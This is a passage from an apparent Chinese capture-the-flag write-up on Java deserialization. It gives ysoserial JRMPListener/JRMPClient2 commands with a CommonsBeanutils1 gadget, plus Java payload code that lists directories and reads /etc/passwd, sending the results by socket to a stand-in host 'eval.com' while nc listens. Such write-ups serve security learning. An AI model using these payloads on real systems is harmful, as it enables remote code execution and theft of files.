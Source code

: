 此时，我们的payload已经可以支持代码执行了。

在这里，我是直接用本地的题目环境进行调试，尝试打印了aaa,操作如下。

```bash
# 修改替换{{内容}}

# 开启监听端口
# 建议采用ceye的dnslog查看
# 执行时合并为一行，为了好看，我换了下行
java -cp ysoserial-5am3.jar ysoserial.exploit.JRMPListener 8099 
	CommonsBeanutils1 'code:System.out.printld("aaa");'


# 生成链接JRMPListener的payload
# ip端口那里填写运行第4行脚本的主机地址端口
java -jar ./ysoserial-5am3.jar JRMPClient2 {{10.0.0.1:8099}} | base64

# 此时将第10行生成的代码，直接打到远程即可。

```

然后进而写一下获取文件，以及获取目录的代码。此时拿到文件，无法回显。我们可以用Socket来将文件发送到我们的服务器，然后nc监听端口即可。

```java
// 以下代码使用时，记得压缩到一行。
// 获取目录下内容
java.io.File file  =new java.io.File("/");
java.io.File[] fileLists = file.listFiles();
java.net.Socket s = new java.net.Socket("eval.com",8768);

for (int i = 0; i < fileLists.length; i++) {
  java.io.OutputStream out = s.getOutputStream();
  out.write(fileLists[i].getName().getBytes());
  out.write("\n".getBytes());
}

// 获取文件内容
java.io.File file = new java.io.File("/etc/passwd");
java.io.InputStream in = null;
in = new java.io.FileInputStream(file);
int tempbyte;
java.net.Socket s = new java.net.Socket("eval.com",8768);
while ((tempbyte = in.read()) != -1) {
  java.io.OutputStream out = s.getOutputStream();
  out.write(tempbyte);
}
in.close();
s.close();
```

然后操作如下：
```bash
# 修改替换{{内容}}

# 开启监听端口
# 建议采用ceye的dnslog查看
# 执行时合并为一行，为了好看，我换了下行
java -cp ysoserial-5am3.jar ysoserial.exploit.JRMPListener 8099 
	CommonsBeanutils1 'code:{{javapayload}}'

# 生成链接JRMPListener的payload
# ip端口那里填写运行第4行脚本的主机地址端口
java -jar ./ysoserial-5am3.jar JRMPClient2 {{10.0.0.1:8099}} | base64

# 监听端口数据
nc -lnvp 2333
```